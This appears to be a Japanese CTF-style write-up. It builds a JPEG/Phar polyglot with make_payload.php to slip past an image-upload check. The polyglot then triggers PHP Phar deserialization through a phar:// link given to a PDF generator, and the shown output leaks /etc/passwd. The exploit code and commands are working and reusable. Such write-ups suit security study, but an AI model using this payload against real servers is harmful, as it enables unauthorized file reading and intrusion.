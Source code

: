 ```php
<?php
namespace PDFStuff {
  class PDFCreator {
    public $tmpfile;
    function __construct($tmpfile) {
      $this->tmpfile = $tmpfile;
    }
  }
}
```

続いて、ファイルのアップロード時の画像であるかどうかのチェックをごまかせるよう、JPEG と Phar の Polyglot を生成する `make_payload.php` を作ります。

```php
<?php
include 'pdfcreator.php';

$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('a.txt', 'a');
$phar->setStub(file_get_contents('base.jpg') . '<?php __HALT_COMPILER(); ? >'); // base.jpg に適当な JPEG を置いておく
$phar->setMetadata(new PDFStuff\PDFCreator('/etc/passwd'));
$phar->stopBuffering();
```

`php -d phar.readonly=0 make_payload.php && mv payload.phar payload.jpg` を実行し、生成された `payload.jpg` をアップロードしてから `<link type="text/css" href="phar://./upload/(アップロード後のファイル名).jpg">` という HTML で PDF を生成すると、以下のようなエラーが出力されました。

```
Could not delete created PDF: Not a pdf. Check the file: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
```
